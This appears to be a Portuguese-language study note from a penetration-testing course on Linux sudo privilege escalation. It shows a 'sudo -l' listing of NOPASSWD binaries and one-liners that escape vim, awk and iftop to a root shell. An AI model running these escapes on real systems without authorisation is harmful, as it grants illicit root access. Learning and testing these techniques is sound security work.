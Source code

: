 # Sudo

- `sudo -u <user> <pass>` -> sudo como outro usuário

## Shell Escaping

```
sudo -l

# Output
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```


```
sudo vim -c ':!/bin/bash'
# Escalação com vim

:q!
# Para sair
```


```
sudo awk 'BEGIN {system("/bin/bash")}'
# Escalação com awk
```


```
sudo iftop
# Escalaçao com iftop
# Vai abrir uma tela
# Digitar ! para editar

!/bin/sh

q
# para sair
```
